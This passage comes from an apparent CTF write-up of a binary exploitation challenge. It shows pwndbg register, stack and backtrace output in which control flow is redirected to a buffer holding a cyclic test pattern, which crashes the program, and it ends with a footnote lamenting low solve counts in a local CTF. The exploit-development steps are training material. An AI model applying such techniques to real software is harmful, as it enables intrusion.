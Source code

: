 ```c
        rdx: 0x602040 (ans) ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaa\n'
        rcx: 0x7f4054f394e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 
   0x40094d <kids_are_not_allowed_here+65>    nop    
   0x40094e <kids_are_not_allowed_here+66>    leave  
   0x40094f <kids_are_not_allowed_here+67>    ret    
 
   0x400950 <kinder>                          push   rbp
   0x400951 <kinder+1>                        mov    rbp, rsp
   0x400954 <kinder+4>                        add    rsp, -0x80
   0x400958 <kinder+8>                        mov    dword ptr [rbp - 4], 0
   0x40095f <kinder+15>                       lea    rax, [rip + 0x33d]              RAX => 0x400ca3 ◂— 'Have a nice day!\n'
   0x400966 <kinder+22>                       mov    qword ptr [rbp - 0x10], rax
   0x40096a <kinder+26>                       lea    rax, [rip + 0x347]              RAX => 0x400cb8 ◂— push rsi /* 'Very interesting question! Let me think about it.....' */
───────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffe3275dab8 ◂— 0x9090909090909090
01:0008│-008 0x7ffe3275dac0 —▸ 0x400c68 ◂— push rdi
02:0010│ rbp 0x7ffe3275dac8 ◂— 0x9090909090909090
... ↓        5 skipped
─────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────
 ► 0         0x40094b kids_are_not_allowed_here+63
   1 0x9090909090909090
   2 0x9090909090909090
   3 0x9090909090909090
   4 0x9090909090909090
   5 0x9090909090909090
   6 0x9090909090909090
   7 0x9090909090909090
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

We resume execution at `call rdx` which holds the reference to an address that is storing our payload - which is not valid shellcode yet, just the output of the `cyclic` command - and as expected leads to a crash.

```c
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000602040 in ans ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────
 RAX  0
 RBX  0x7ffe3275dbf8 —▸ 0x7ffe3275e4f5 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
 RCX  0x7f4054f394e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x602040 (ans) ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaa\n'
 RDI  1
 RSI  0x400c68 ◂— push rdi
 R8   4
 R9   7
 R10  7
 R11  0x202
 R12  0
 R13  0x7ffe3275dc08 —▸ 0x7ffe3275e524 ◂— 'PWD=/home/kidd/Desktop/WORK/bsides24/pwn'
 R14  0x7f405508c000 (_rtld_global) —▸ 0x7f405508d2c0 ◂— 0
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?
